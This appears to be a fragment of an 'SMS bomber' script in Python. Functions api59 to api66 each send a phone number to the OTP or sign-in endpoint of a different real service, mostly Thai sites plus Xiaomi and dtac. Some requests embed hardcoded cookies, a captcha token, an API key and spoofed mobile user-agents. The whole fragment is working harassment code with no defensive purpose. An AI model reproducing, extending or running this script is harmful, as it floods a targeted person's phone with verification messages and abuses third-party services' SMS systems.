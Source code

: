     post("https://www.tgfone.com/signin/otp_chk_fast",headers=header,json=f"mobile={phone}&type_otp=7")

def api59(phone):

    post("https://ufa3bb.com/account/register/sendotp",headers=header,data=f"phone={phone}")

    

def api60(phone):

    post("https://login.s-momclub.com/accounts.otp.sendCode", data=f"phoneNumber=%2B66{phone[1:]}&lang=th&APIKey=3_R6NL_0KSx2Jyu7CsoDxVYau1jyOIaPzXKbwpatJ_-GZStVrCHeHNIO3L1CEKVIKC&source=showScreenSet&sdk=js_latest&authMode=cookie&pageURL=https%3A%2F%2Fwww.s-momclub.com%2Fprofile%2Flogin&sdkBuild=12563&format=json",headers={"content-type": "application/x-www-form-urlencoded","user-agent": "Mozilla/5.0 (Linux; Android 5.1.1; A37f) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.74 Mobile Safari/537.36","cookie": "gmid=gmid.ver4.AcbHriHAww._ill8qHpGNXtv9aY3XQyCvPohNww4j7EtjeiM3jBccqD7Vx0OmGeJuXcpQ2orXGs.nH0yRZjbm75C-5MVgB2Ii0PWvx6TICBn1LYI_XtlgoHg9mnouZgNs6CHULJEitOfkBhHvf8zUvrvMauanc52Sw.sc3;ucid=Tn63eeu2u8ygoINkqYBk5w;hasGmid=ver4;_ga=GA1.2.1714152564.1642328595;_fbp=fb.1.1642328611770.178002163;_gcl_au=1.1.64457176.1642329285;gig_bootstrap_3_R6NL_0KSx2Jyu7CsoDxVYau1jyOIaPzXKbwpatJ_-GZStVrCHeHNIO3L1CEKVIKC=login_ver4;_gid=GA1.2.1524201365.1642442639;_gat=1;_gat_rolloutTracker=1;_gat_globalTracker=1;_gat_UA-62402337-1=1"})

    

def api61(phone):

    post("https://globalapi.pointspot.co/papi/oauth2/signinWithPhone", data={"phoneNumber": f"+66{phone[1:]}"})

    

def api62(phone):

    get(f"https://hdmall.co.th/phone_verifications?express_sign_in=1&mobile={phone}")

    

def api63(phone):

    post("https://asha168vip.com/_ajax_/request-otp", data={"request_otp[phoneNumber]":phone,"request_otp[termAndCondition]": "1","request_otp[_token]": "1642443743"})

    

def api64(phone):

    post("https://account.xiaomi.com/pass/sendPhoneRegTicket", data=f"region=US&phone=%2B66{phone[1:]}",headers={"content-type": "application/x-www-form-urlencoded; charset=UTF-8","user-agent": "Mozilla/5.0 (Linux; Android 5.1.1; A37f) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.74 Mobile Safari/537.36","cookie": "captchaToken=mXYXs+xvEHAZdhKnXK1XlopRcisSn05D6xhZU+uL3ghvh1Yf/4rYTExH+2xl+yZv;deviceId=wb_aca09552-fd37-4204-9d7a-20045de5c5bf;uLocale=en"})

    

def api65(phone):

    post("https://gamingnation.dtac.co.th/api/otp/generate", data={"template":"register","phone_no":phone},headers={"User-Agent": "Mozilla/5.0 (Linux; Android 5.1.1; A37f) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.74 Mobile Safari/537.36"})

    

def api66(phone):

    post("https://www.aurora.co.th/signin/otp_chk", data=f"mobile={phone}&type_otp=3",headers={"Content-Type": "application/x-www-form-urlencoded; charset=UTF-8"})
